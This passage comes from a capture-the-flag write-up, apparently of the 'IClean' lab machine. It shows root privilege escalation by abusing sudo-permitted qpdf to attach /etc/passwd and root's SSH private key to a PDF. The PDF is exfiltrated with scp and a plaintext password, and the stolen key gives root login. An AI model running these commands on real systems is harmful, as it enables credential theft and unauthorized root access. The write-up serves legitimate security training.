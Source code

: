 ![image-20240713135844512](/img/image-20240713135844512.png)

I’ll grab a copy for my VM:

```

oxdf@hacky$ sshpass -p 'simple and clean' scp consuela@capiclean.htb:/dev/shm/test test.pdf
oxdf@hacky$ open test.pdf 

```

I’ll show how to read the file with a PDF reader here, but in [Beyond Root](#beyond-root---pdf-forensics) I’ll show using PDF forensics tools.

It contains no pages, but the sidebar offers attachments:

![image-20240713140046735](/img/image-20240713140046735.png)

Going to “Attachments”, there’s one called “passwd”:

![image-20240713140111325](/img/image-20240713140111325.png)

And it is `/etc/passwd`:

![image-20240713140132144](/img/image-20240713140132144.png)

#### SSH Key

I’ll repeat the process to add both root’s `id_rsa` and `root.txt` to a file:

```

consuela@iclean:/dev/shm$ sudo qpdf --empty --add-attachment /root/.ssh/id_rsa -- test.pdf
consuela@iclean:/dev/shm$ file test.pdf
test.pdf: PDF document, version 1.3, 0 pages

```

Exfil it:

```

oxdf@hacky$ sshpass -p 'simple and clean' scp consuela@capiclean.htb:/dev/shm/test.pdf test.pdf
oxdf@hacky$ open test.pdf 

```

And there’s a file:

![image-20240713140345213](/img/image-20240713140345213.png)

### SSH

With that key, I can SSH into IClean as root:

```

oxdf@hacky$ ssh -i ~/keys/iclean-root root@capiclean.htbWelcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)
...[snip]...
root@iclean:~# 

```
